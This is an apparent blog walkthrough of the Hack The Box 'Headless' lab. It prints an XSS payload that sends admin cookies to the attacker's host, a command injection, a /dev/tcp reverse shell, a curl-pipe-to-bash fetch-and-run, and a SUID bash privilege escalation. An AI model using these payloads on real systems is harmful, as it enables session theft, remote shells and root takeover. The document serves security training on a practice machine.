 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Headless
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -sT -sU -sC -sV 10.10.11.242
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/14b8cd55-fcce-42df-bdf6-9d19d99017d7)

I add headless to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://headless.htb:5000`


```
echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3bd6636f-3891-49d6-988c-f4de867e7ce6)


#### Directory Enumeration

```
dirsearch -u http://headless.htb:5000
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5a86b5e0-bb85-4ef3-a558-d560c4c57c70)

We can see that there are two pages available; `/support` and `/dashboard`. Let’s visit both of them to find our way into the machine.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a17cd01d-309a-4ee0-baa7-3855e53f86f5)


To access the `/dashboard`, we either need to be logged in as a user with elevated privileges (admin) (but I don’t see a login page), or we need to trick the server into believing that we are authorized to access the URL. When considering how to trick the server, I think about providing it with either an admin cookie or an admin session ID.


### Getting Foothold on Headless

We need to provide a payload that can capture the cookies of the admin user who will be reviewing our support queries. The payload will look like this:

```
<script>document.location='http://<Your_Kali_IP>/?cookie='+document.cookie</script>
```

Additionally, we can URL encode this payload by pressing `Ctrl + u`. Along with this payload, we also need to start an HTTP server using the following command:

```
python3 -m http.server 80
```

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we'll discover that the same payload must be inserted into two specific parameters: message and User-Agent."

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dbd01369-141b-45f5-b0d8-884309419e76)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b6a376a8-a032-4c50-a487-3237efc72d18)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/bd5427da-f098-4705-9575-0ef0fcfb5636)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/66777c23-637e-43fe-850a-5118d9c5badd)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0495bd70-013b-4a9e-b273-fdeb1e6a3dd8)


After waiting for a minute, we can see that we have received the admin user's cookie. Now, we can add this cookie value to our browser using the inspect element feature or cookie editor add-on.

Navigate to `http://headless.htb:5000/dashboard` to access the Administrator Dashboard. Here, you'll encounter an option to generate the website's health report for a specific date. Let's intercept this request via Burp Suite and transfer another POST request to the repeater tool.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1ccfa512-d5e0-4659-a0a0-714eba2024b7)


Within the body of this request, locate the date parameter. We'll attempt to detect a command injection vulnerability using this parameter by employing the following payload:

```
&& pwd
```
Additionally, we can URL encode this payload by pressing `Ctrl + u`. Now, let's send the request and check the response, where we will find that the date parameter is vulnerable to command injection.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d80e730-3305-4f7e-b23f-43491f7e8440)

I make a file named `payload.sh` with the following inside it.

```
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f839669f-b9fe-4b9b-9a63-6856ddb48762)

The IP address should be your IP address, and the port number `/4444` represents the port on which I'm going to open my netcat listener.

```
nc -nlvp 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8e527634-6ff3-4438-b867-e842a22ac53d)

finally run the Python3 HTTP server to host the file (payload.sh) using the following command

```
python3 -m http.server 8081
```

We want to insert a command that will fetch the payload file we created and run it. Make sure that you have your admin cookie listed in the cookie field. (don't forget `ctrl + u`)

```
curl http://10.10.16.18:8081/payload.sh|bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/08581364-7a9a-460a-81f8-4361f07c94d5)


We can see that the payload.sh file is downloaded by the web server and then executed which results in getting a reverse shell on our netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b8328dfb-3cf9-48d3-a726-a77c46c9651e)

get `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cab10a6a-8533-4e2c-ac9f-b995b150d931)


### Privilege Escalation

Now, let's proceed to gain root access on the target machine. We'll initiate by checking the sudo privileges using the following command:

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e6f89830-4912-4b7b-a2b0-d7f65bc5ab9a)


Upon execution, it's revealed that the `dvir` user possesses permission to execute the `/usr/bin/syschec`k binary as the root user. Let's inspect the contents of this binary.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6f9a7877-300c-4df9-a061-daef38545a0a)


We'll discover that there's a bash script named `initdb.sh` that is executed without specifying its full path. Exploiting this vulnerability is straightforward; we create a malicious bash script with the same name. Executing the following commands accomplishes this:

```
echo "chmod u+s /bin/bash" > initdb.sh
```

```
chmod +x initdb.sh
```

Upon executing the `syscheck` binary, our malicious script in the current directory takes precedence. This script assigns the SUID bit of the root user to the /bin/bash file. To witness this in action, we run the command:

```
sudo /usr/bin/syscheck
```

Following this command execution, we proceed to execute `/bin/bash` with the owner's (root) privileges using the command:

```
/bin/bash -p
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/42b97909-aee5-4ae1-a7be-649999bfcd83)

After executing the above command, we'll observe that we have successfully escalated our privileges to the `root` user. Consequently, we can effortlessly access the contents of the `root.txt` file.




